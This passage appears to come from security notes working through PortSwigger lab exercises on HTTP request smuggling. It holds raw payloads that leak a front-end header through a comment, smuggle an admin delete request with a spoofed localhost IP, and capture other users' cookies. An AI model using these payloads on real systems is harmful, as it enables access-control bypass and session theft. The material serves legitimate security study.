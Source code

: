 Leak data in comment content. Put `comment=` last to make the next request get appended and read as part of the comment. Make sure to use long `Content-Length` but not too long.

```http
POST /post/comment HTTP/1.1
Host: 0af200a104c3ef7bc068832d001b00ff.web-security-academy.net
Content-Length: 316
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0af200a104c3ef7bc068832d001b00ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=Q9Ra3PMynaM4qv23aTWPITOPBaYvqYB9
Content-Length: 200

csrf=YvyCU73Jt8tqxDbiZ11WaMbofDCpyVI7&postId=6&name=server&email=emal@d.d&website=&comment=leak
```

Now the page shows the `X-mxqMOU-Ip` header

```http
leakGET / HTTP/1.1 X-mxqMOU-Ip: 82.74.120.62 Host: 0af200a104c3ef7bc068832d001b00ff.web-security-academy.ne
```

Use this header like before to make a request look like it was valid from the front-end

```http
POST /post/comment HTTP/1.1
Host: 0af200a104c3ef7bc068832d001b00ff.web-security-academy.net
Content-Length: 211
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: 0af200a104c3ef7bc068832d001b00ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
X-mxqMOU-Ip: 127.0.0.1

x=
```

### Leaking cookies from other users

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests" %}
Portswigger **lab** for leaking cookies from other users
{% endembed %}

> This type of attack can also be used to leak `Cookie`s from requests from other users, by storing the data is a comment for example. The `Content-Length` needs to be perfect though, to find the entire cookie
